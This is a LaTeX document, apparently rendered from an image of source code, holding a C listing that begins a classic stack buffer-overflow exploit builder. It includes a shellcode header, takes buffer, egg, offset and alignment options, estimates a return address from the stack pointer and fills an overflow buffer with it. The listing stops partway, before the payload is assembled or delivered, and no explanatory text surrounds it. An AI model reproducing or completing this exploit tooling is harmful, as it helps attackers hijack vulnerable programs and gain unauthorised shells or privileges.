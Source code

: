 \documentclass[a4paper]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}

#include <stdlib.h>
#include <stdio.h>
#include "shellcode.h"

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048

void usage(void);

void main(int argc, char *argv[]) {
  char *ptr, *bof, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

  while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
    switch (c) {
      case 'a':
        align = atoi(optarg);
        break;
      case 'b':
        bsize = atoi(optarg);
        break;
      case 'e':
        eggsize = atoi(optarg);
        break;
      case 'o':
        offset = atoi(optarg);
        break;
      case '?':
        usage();
        exit(0);
    }

  if (strlen(shellcode) > eggsize) {
    printf("Shellcode is larger the the egg.\n");
    exit(0);
  }

  if (!(bof = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
   		 printf("Can't allocate memory.\n");
	exit(0);
  	}	

  addr = get_sp() - offset;
  printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
    bsize, eggsize, align);
  printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

  addr_ptr = (long *) bof;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

\end{verbatim}

\label{listing:1}
\end{listing}
\end{document}
